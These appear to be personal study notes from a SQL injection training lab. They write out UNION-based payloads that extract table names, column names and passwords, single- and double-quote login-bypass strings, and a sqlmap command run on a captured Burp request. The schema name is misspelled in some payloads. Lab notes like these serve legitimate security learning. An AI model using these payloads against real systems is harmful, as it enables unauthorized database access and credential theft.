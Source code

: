 
## tables in the db
**==Now we need to extract the table names in the db:==**
```sql
jeremy' union select null,null, table_name from informational_schema.tables#
```
- ![[Pasted image 20241223152026.png]]


For the columns of the tables we can try:
```sql
jeremy' union select null,null, column_name from informational_schema.columns#
```
- ![[Pasted image 20241223151937.png]]

So we will try to figure out the passwords:
```sql
jeremy' union select null,null, password from injection0x01 #
```


==**To understand which type is a column we can play and use numbers or chars instead of null.**==
- ![[Pasted image 20241223152239.png]]


# Injection 0x02 BLIND 1

What we have to do here is to login as `jeremy:jeremy` to go far with the challenge.


**==At this point with burp we can see the post request and understand if it is possible to manipulate it to bypass the login with sql injection:==**
- ![[Pasted image 20250104152146.png]]
Here we added 
``` sql
jeremy' or 1=1#
```
- in URL encoding

But it gives invalid credentials:
- ![[Pasted image 20250104152304.png]]

So we try with double quote:
```sql
jeremy" or 1=1#
```

But nothing.

## Automate it with sqlmap

==**We copy the request in burp and we put it into a**== We copy the request in burp and we put it into a`.txt` file:
- ![[Pasted image 20250104152438.png]]

At this point we can run sqlmap:
```bash
sqlmap -r request.txt
```
